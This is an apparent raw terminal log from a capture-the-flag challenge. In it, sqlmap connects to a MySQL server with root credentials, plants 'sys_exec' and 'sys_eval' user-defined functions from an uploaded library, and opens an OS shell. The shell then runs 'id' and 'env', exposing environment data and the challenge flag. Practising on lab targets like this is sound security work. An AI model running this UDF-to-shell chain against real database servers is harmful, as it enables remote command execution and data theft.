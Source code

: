 ┌──(root㉿pptest)-[~]
└─# sqlmap -d "mysql://root:`echo $pass`@node4.buuoj.cn:29267/mysql" --os-shell --no-cast
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.12#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:14:34 /2023-03-08/

[13:14:36] [INFO] connection to MySQL server 'node4.buuoj.cn:29267' established
[13:14:36] [INFO] testing MySQL
[13:14:36] [INFO] resumed: [['1']]...
[13:14:36] [INFO] confirming MySQL
[13:14:36] [INFO] resumed: [['1']]...
[13:14:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[13:14:36] [INFO] fingerprinting the back-end DBMS operating system
[13:14:36] [INFO] resumed: [['0']]...
[13:14:36] [INFO] the back-end DBMS operating system is Linux
[13:14:36] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1051, "Unknown table 'sqlmapfile'")
[13:14:37] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1051, "Unknown table 'sqlmapfilehex'")
[13:14:37] [INFO] testing if current user is DBA
[13:14:37] [INFO] fetching current user
[13:14:37] [INFO] resumed: [['root@%']]...
[13:14:37] [INFO] resumed: [['1']]...
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[13:14:39] [INFO] checking if UDF 'sys_exec' already exist
[13:14:39] [INFO] checking if UDF 'sys_eval' already exist
[13:14:39] [INFO] detecting back-end DBMS version from its banner
[13:14:39] [INFO] resumed: [['5.5.23']]...
[13:14:39] [INFO] retrieving MySQL plugin directory absolute path
[13:14:39] [INFO] resumed: [['/usr/local/mysql/lib/plugin/']]...
[13:14:39] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1051, "Unknown table 'sqlmapfile'")

[13:14:57] [INFO] the local file '/tmp/sqlmap6q23s7hu1416464/lib_mysqludf_syszak9c093.so' and the remote file '/usr/local/mysql/lib/plugin/libsbcax.so' have the same size (8040 B)
[13:14:57] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1051, "Unknown table 'sqlmapfilehex'")
[13:14:57] [INFO] creating UDF 'sys_exec' from the binary UDF file
[13:14:58] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1305, 'FUNCTION mysql.sys_exec does not exist')
[13:14:58] [INFO] creating UDF 'sys_eval' from the binary UDF file
[13:14:58] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1305, 'FUNCTION mysql.sys_eval does not exist')
[13:14:59] [WARNING] (remote) OperationalError: (MySQLdb._exceptions.OperationalError) (1051, "Unknown table 'sqlmapoutput'")
[13:15:00] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[13:15:00] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
os-shell> id
do you want to retrieve the command standard output? [Y/n/a]
command standard output: 'uid=999(mysql) gid=1000(mysql) groups=1000(mysql)'
os-shell> env
do you want to retrieve the command standard output? [Y/n/a]
command standard output:
---
KUBERNETES_PORT=tcp://10.240.0.1:443
KUBERNETES_SERVICE_PORT=443
MYSQL_HOME=/usr/local/mysql
HOSTNAME=out
SHLVL=1
HOME=/root
_=/usr/local/bin/mysqld_safe
KUBERNETES_PORT_443_TCP_ADDR=10.240.0.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
KUBERNETES_PORT_443_TCP_PORT=443
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_PORT_443_TCP=tcp://10.240.0.1:443
KUBERNETES_SERVICE_HOST=10.240.0.1
PWD=/usr/local/mysql/data
FLAG=flag{660cb4fe-207b-47e2-a84e-96de5e8444be}
---
os-shell>